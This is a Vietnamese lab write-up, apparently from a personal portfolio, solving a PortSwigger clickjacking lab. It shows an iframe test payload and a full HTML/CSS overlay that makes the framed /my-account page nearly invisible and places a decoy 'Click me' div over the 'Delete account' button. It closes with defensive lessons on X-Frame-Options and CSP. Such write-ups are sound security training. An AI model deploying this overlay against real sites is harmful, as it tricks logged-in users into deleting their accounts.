




# Write-ups: Basic clickjacking with CSRF token protection

### Tổng quan
Khai thác lỗ hổng clickjacking trong ứng dụng, nơi giao diện `/my-account` chứa nút "`Delete account`" được bảo vệ bởi CSRF token, nhưng không có biện pháp chống clickjacking như header `X-Frame-Options` hoặc `Content-Security-Policy` (CSP). Kẻ tấn công có thể chèn trang `/my-account` vào một `iframe` trong Exploit Server, sử dụng một div giả mạo ("Click me") đặt chồng lên nút "Delete account" để lừa người dùng nhấp vào, kích hoạt hành động xóa tài khoản. Payload được tối ưu vị trí để đảm bảo nhấp vào div sẽ kích hoạt nút mục tiêu, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng clickjacking bằng cách sử dụng iframe để nhúng trang `/my-account`, đặt div giả mạo lên nút "Delete account", lừa người dùng nhấp để xóa tài khoản của họ và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account`:
- **Quan sát**:
    - Trang `/my-account` chứa nút "`Delete account`", được bảo vệ bởi CSRF token trong form POST.
    - Xác định vị trí nút "Delete account" trên giao diện
    

- **Kiểm tra khả năng nhúng iframe**:
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang /my-account vào iframe: 
    `<iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>`
    - Store và view exploit: Trang `/my-account` hiển thị trong iframe mà không bị chặn, xác nhận lỗ hổng clickjacking:
        

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Delete account":
    ```html
    <style>
        iframe {
            position: relative;
            width: 1000px;
            height: 700px;
            opacity: 0.00001;
            z-index: 2;
        }
        div {
            position: absolute;
            top: 515px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>
    ```
    
- **Ý tưởng payload**:
    - Iframe nhúng `/my-account` gần trong suốt, div "Click me" đặt chồng lên nút "Delete account" để lừa người dùng nhấp, kích hoạt hành động xóa tài khoản.

- Store và view exploit để kiểm tra:
    - Xác nhận div "Click me" chồng chính xác lên nút "Delete account", nhấp vào div kích hoạt hành động xóa.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: khi nạn nhân (đã đăng nhập) truy cập trang Exploit Server, nhấp vào "Click me", yêu cầu POST xóa tài khoản được gửi kèm CSRF token từ phiên của họ, xóa tài khoản thành công và hoàn thành lab.
        

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng clickjacking bằng cách nhúng trang `/my-account` vào iframe, sử dụng div giả mạo để lừa người dùng nhấp vào nút "Delete account", tận dụng việc thiếu bảo vệ chống nhúng iframe.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc Con`tent-Security-Policy: frame-ancestors 'none'` để ngăn chặn nhúng iframe, bảo vệ ứng dụng khỏi các cuộc tấn công clickjacking.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking trong môi trường có CSRF token nhưng thiếu bảo vệ chống nhúng iframe, nhấn mạnh tầm quan trọng của việc sử dụng `X-Frame-Options` hoặc CSP để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*